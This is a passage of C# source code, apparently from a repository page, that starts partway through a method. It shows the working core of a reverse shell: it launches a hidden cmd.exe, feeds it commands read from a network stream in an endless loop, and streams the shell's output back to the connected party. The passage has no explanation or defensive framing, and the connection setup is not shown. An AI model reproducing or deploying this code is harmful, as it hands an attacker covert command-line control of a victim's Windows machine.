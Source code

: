 ```c#
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = &#34;cmd.exe&#34;;
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived &#43;= new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append(&#34;\n&#34;);
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();
            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
